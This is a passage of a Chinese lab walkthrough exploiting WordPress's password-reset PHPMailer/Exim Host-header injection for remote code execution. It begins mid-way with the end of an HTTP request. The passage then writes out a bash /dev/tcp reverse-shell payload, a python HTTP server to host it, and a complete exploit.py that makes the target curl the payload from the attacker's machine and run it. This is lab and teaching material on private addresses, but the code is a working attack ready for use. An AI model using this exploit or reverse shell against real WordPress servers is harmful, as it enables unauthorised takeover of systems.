 ```bash
Connection: keep-alive

user_login=admin&redirect_to=&wp-submit=%E8%8E%B7%E5%8F%96%E6%96%B0%E5%AF%86%E7%A0%81
```



#### 反弹shell

 打开攻击机kali，创建一个目录并制作反弹shell，命名`1.txt`。文件内容：

```bash
mkdir /root/pwnscriptum
echo "bash -i>& /dev/tcp/192.168.70.4/20000 0>&1" > pwnscriptum/1.txt
```

![image-20241105174158230](https://image.201068.xyz/assets/11.Wordpress/image-20241105174158230.png)

#### python启动http服务

在攻击机上启动80服务，等待靶机下载反弹shell文件。

```bash
cd /root/pwnscriptum
python3 -m http.server 80
```

![image-20241105174210502](https://image.201068.xyz/assets/11.Wordpress/image-20241105174210502.png)

#### exploit.py

```bash
#!/usr/bin/env python3
import requests
import sys

# wordpress's url
target = 'http://192.168.70.4:6081' if len(sys.argv) < 1 else sys.argv[1]
# Put your command in a website, and use the website's url
# don't contains "http://", must be all lowercase
shell_url = 'http://192.168.70.4/1.txt' if len(sys.argv) < 2 else sys.argv[2]
# an exists user
user = 'admin'

def generate_command(command):
    command = '${run{%s}}' % command
    command = command.replace('/', '${substr{0}{1}{$spool_directory}}')
    command = command.replace(' ', '${substr{10}{1}{$tod_log}}')
    return 'target(any -froot@localhost -be %s null)' % command


session = requests.session()
data = {
    'user_login': user,
    'redirect_to': '',
    'wp-submit': 'Get New Password'
}
session.headers = {
    'Host': generate_command('/usr/bin/curl -o/tmp/rce ' + shell_url),
    'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)'
}
session.allow_redirects = False
target += '/wp-login.php?action=lostpassword'
session.post(target, data=data)

session.headers['Host'] = generate_command('/bin/bash /tmp/rce')
session.post(target, data=data)
```